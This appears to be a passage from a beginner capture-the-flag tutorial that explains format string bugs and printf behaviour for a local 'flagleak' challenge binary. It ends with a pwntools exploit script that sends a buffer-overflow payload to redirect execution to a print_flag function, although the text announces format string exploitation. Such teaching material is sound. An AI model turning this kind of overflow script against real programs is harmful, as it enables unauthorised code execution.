 It is reading a file called flag.txt. If you dont have the file in your current directory it will give you an error. so create a file with a random value. In this task our main goal is to get the value of the flag. A flag is basically a valuable object in games called ctfs likewise in security contests these flags give you points. Wait does it mean you can't get a shell in this challenge :( ? Umm... You can spawn a shell in this challenge, but in this module we will only try out format string exploitation. If you are too keen to know, then check out what libc leak is. Dont worry we will see them in the later parts of this training. 

#### Vulnerability:

Before going into the vuln lets see how printf works. 

#### printf:

printf is a function in the glibc library. It basically has 2 parts, a format and an argument.
```c
printf("text here and %x %p %s ", a,b,c)
```
So in the first field we fill it with text and format specifiers to print the values in the corresponding second field (variables). The different format specifiers like %x %p %s denote the datatype of the variable; like hex, pointer, string respectively.

#### Exploitation:
So what if we are able to control the first field. Imagine being able to read more values from 2nd field, more than the available arguments ? Will the program crash ? will it send some garbage data ?  :thinking: 

points to note: 
* The arguments are stored in the stack.
* printf will take values from the stack.

So, the extra format specifiers we specified will continue to take the values stored in the stack. Lets do it live. [I am using pwntools template. to make a template go to terminal and type ``pwn template > xpl.py`` ]. Now go to vim and continue writing your exploit from the buffer overflow to the print_flag function. (if you are lazy you can copy the script down below :( )
```py
#!/usr/bin/env python3
from pwn import *

# Set up pwntools for the correct architecture
context.update(arch='amd64')
exe = './flagleak'
elf = ELF("flagleak")

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

gdbscript = '''
b* main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

p = start() #make a connection to the flagleak binary

p.recvline() # recv the line given by the binary
p.send(b"A"*(0x60+8) + p64(0x401016)  +  p64(elf.sym['print_flag']) ) # send a bufferoverflow to the binary to redirect code excecution to print_flag

```